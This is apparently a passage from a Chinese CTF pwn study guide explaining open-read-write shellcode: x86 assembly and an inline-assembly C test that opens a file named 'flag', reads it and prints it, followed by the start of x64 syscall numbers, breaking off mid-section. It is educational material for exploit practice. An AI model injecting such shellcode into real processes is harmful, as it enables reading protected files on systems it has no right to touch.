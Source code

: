 ```c
mov eax, 3			; read系统调用号存入eax
int 0x80			; 中断执行read函数
; write(1, buf, 0x50) 将flag内容写入到屏幕
sub ebx, 0x2		; 原本ebx存储的是3, 减去2即为1, 也就是标准输出
; 另外两个参数寄存器不需要改动
mov eax, 4			; write系统调用存入eax
int 0x80			; 中断执行write
```

用内联汇编来运行看对不对

```c
int main() {
        __asm("push 0\n"
                "push 0x67616c66\n"
                "push esp\n"
                "pop ebx\n"
                "xor ecx, ecx\n"
                "xor edx, edx\n"
                "mov eax, 5\n"
                "int 0x80\n"
                "push 3\n"
                "pop ebx\n"
                "push esp\n"
                "pop ecx\n"
                "push 0x50\n"
                "pop edx\n"
                "mov eax, 3\n"
                "int 0x80\n"
                "sub ebx, 2\n"
                "mov eax, 4\n"
                "int 0x80");
        return 0;
}
// gcc orw_x86_test.c -o orw_x86_test -m32 -masm=intel
```

![image-20220327140956008](自救指南.assets/image-20220327140956008.png)

x64

```c
#define __NR_read 0
#define __NR_write 1
#define __NR_open 2
```

获取flag的代码片段为
